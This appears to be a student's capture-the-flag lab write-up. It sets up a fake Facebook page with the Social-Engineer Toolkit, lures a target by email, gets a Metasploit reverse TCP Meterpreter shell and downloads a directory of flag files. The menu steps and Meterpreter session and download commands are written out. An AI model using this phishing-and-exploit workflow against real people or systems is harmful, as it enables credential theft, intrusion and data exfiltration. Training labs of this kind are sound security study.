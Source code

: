 # Social-Engineering-Web-Browser-Attack 

## Objective
In this lab, I am setting up a fake Facebook website, then sending the
link to that fake website via email to the target. The target will login
to the fake facebook which will run an exploit through metasploit to
connect to the target machine

## Skills Learned
Setting up a fake Facebook website using SET (Social Engineering Toolkit)<br>
Using the Facebook web template and Metasploit reverse TCP meterpreter shell<br>
Using Metasploit commands to list and interact with active sessions once the exploit is triggered<br>
Practiced working with a Meterpreter shell to navigate directories and download/upload files <br>
Downloading a directory and specific files, including flag files<br>
Using background to manage sessions and noting the persistence of the exploit<br>

## **Casting the Net - Setting up the fake website**

In the given machine, I was just able to type 'setoolkit' in the
terminal to launch the SET application

I selected (1) for Social-Engineering Attacks

\(2\) for Website Attack Vectors

\(2\) for Metasploit Browser Method

\(1\) to use Web Templates

I'm not sure what the next step meant, but I put in "no" for using
NAT/port forwarding

I typed my host IP address which was "175.45.176.199"

\(3\) to use the Facebook web template

\(46\) for the Metasploit browser exploit

\(2\) for Reverse TCP Meterpreter Shell

{Enter} for using the default port of 443

Waited for a bunch of messages from Metasploit starting the server w/
exploits

Waited until "Done, found x exploit modules"

![image7](https://github.com/user-attachments/assets/02c84419-4212-45cf-92f4-ae91eb8386c5)

## **Getting Attacked - Using the Target System**

I logged in to the target server

I'm not sure how, but there was already an email sent.

The hyperlink to "facebook.com" sent the browser to the fake website

I, as the target, signed in with whatever credentials I was given but I
believe literally anything would work, as long as they hit enter which
will send them to another page. This exploit page will seem to "hang" as
the exploit begins

![image12](https://github.com/user-attachments/assets/126b776f-8795-4687-818c-bae98beb9635)
![image2](https://github.com/user-attachments/assets/1afaf3d9-754b-4ff0-8f03-6b291c2a31b3)


## **Connecting to the Machine**
![image8](https://github.com/user-attachments/assets/82418c34-4a27-4c7c-9d31-fb120307d29c)

Now back the attacker's console, in the "msf auxiliary" command line

**'sessions -l'** to **list all active sessions**

**'sessions** -i **#'** to **interact with a certain machine**

in this case i do 'sessions -i 1' to interact with the first machine

![image9](https://github.com/user-attachments/assets/c29feb7c-57ef-4af9-a3af-0399fff96fb7)


## **Stealing Data - [[Working in a Meterpreter Shell]](https://github.com/rat-v/Random-Notes-for-Tools/blob/main/Metasploit%20and%20Meterpreter.md)**

**'pwd'** to find the **present working directory** to figure out where
I am

Then can use normal windows 'cd' commands to change directory

**'cd /'** to change to root directory

![image1](https://github.com/user-attachments/assets/e0348259-b391-40ee-939c-29ee9df60751)


'**ls'** to list files and folders in the directory, any name that pops
up without an extension is a folder I assume

![image6](https://github.com/user-attachments/assets/b8f77328-d687-4947-b513-6ed633c6000f)


**'cd share'** to move into the share folder

![image11](https://github.com/user-attachments/assets/3a62dac7-84ed-4fbc-872f-ceb315efb5aa)


We can see a folder called "DeathStar" which very likely has classified
imperial plans that I should investigate.

Moving into the DeathStar folder, I see 4 images of blueprints, I can
download the ENTIRE directory by using **'download \*.\*'** and then
sending it to my root folder by adding **'/root'**

So the entire command is **'download \*.\* /root'** to download the
entire directory and then outputting it into my root folder

I can also do **'/root/Blueprints'** to put these images in a dedicated
folder that was just created with the command

![image3](https://github.com/user-attachments/assets/c7b406ed-531b-4d80-9e53-e8b1f1a3f739)


![image10](https://github.com/user-attachments/assets/d4b756a6-9363-4a94-834a-209a5d3a6d45)


Each blueprint has a flag somewhere in the picture

blueprint1 = 999818

blueprint2 = 111222

blueprint3 = 777558

blueprint4 = 655913

I can also download the flag4.xml file in /share using the same download
method. Opening it reveals the flag in the first few lines of the file
(444588)

![image4](https://github.com/user-attachments/assets/3f072c03-35c3-43f5-874f-d04eb06c2d9d)


## **Closing notes**

I can find the ip address of the machine using **'ipconfig'**

**'background'** lets me put the current session in the background so I
can interact with the msf auxiliary console

Even if the target machine closes the web browser, I still have a
completely normal connected session to the machine. I can still move
through directories and download files and see changes made such as
adding or deleting files. I only lost access to the machine when they
manually stopped the "notepad.exe" process that I noticed was
responsible for the exploit in the first section.

In this lab, I noticed an additional machine in the topology called the
Windows 8.1 Attack Server. I'm not really sure how this machine played a
role in this, but I noticed it has the same 175.45.176.200 ip address as
the fake Facebook website, so perhaps it's the server hosting the fake
website? Also I never did any command involving that ip address, so
maybe it's something that was set up before.

![image5](https://github.com/user-attachments/assets/77b02be7-27cc-4350-8ed9-10e53db96ed6)
